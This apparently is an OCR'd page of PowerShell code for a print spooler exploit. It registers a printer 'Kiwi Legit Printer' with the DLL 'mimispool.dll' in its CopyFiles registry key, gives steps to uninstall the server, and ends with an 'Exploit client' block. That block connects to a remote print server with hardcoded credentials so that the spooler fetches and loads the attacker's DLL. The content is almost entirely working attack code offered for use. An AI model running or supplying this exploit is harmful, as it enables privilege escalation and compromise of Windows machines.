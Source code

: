 ```
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Directory' -PropertyType 'String'      -Value $null             | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Files'     -PropertyType 'MultiString' -Value $null             | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Module'    -PropertyType 'String'      -Value 'mimispool.dll'   | Out-Null
```

#### Uninstall Server:

```
$printerName     = 'Kiwi Legit Printer'
$system32        = $env:systemroot + '\system32'
$drivers         = $system32 + '\spool\drivers'

 

Remove-Printer       -Name $printerName
Start-Sleep -Seconds 2
Remove-PrinterDriver -Name 'Generic / Text Only'

 

Remove-Item -Force -Path ($drivers  + '\x64\3\mimispool.dll')
Remove-Item -Force -Path ($drivers  + '\W32X86\3\mimispool.dll')
Remove-Item -Force -Path ($system32 + '\mimispool.dll')

 


```

 

#### Exploit client


```
$serverName  = 'PRINTSRV.local'
$username    = 'user'
$password    = 'P@ssw0rd'
$printerName = 'Kiwi Legit Printer'

 

$fullprinterName = '\\' + $serverName + '\' + $printerName
$credential = (New-Object System.Management.Automation.PSCredential($username, (ConvertTo-SecureString -AsPlainText -String $password -Force)))

 

Remove-PSDrive -Force -Name 'KiwiLegitPrintServer' -ErrorAction SilentlyContinue
Remove-Printer -Name $fullprinterName -ErrorAction SilentlyContinue

 

New-PSDrive -Name 'KiwiLegitPrintServer' -Root ('\\' + $serverName + '\print$') -PSProvider FileSystem -Credential $credential | Out-Null
Add-Printer -ConnectionName $fullprinterName

 

$driver = (Get-Printer -Name $fullprinterName).DriverName
Remove-Printer -Name $fullprinterName
Remove-PrinterDriver -Name $driver
Remove-PSDrive -Force -Name 'KiwiLegitPrintServer'
```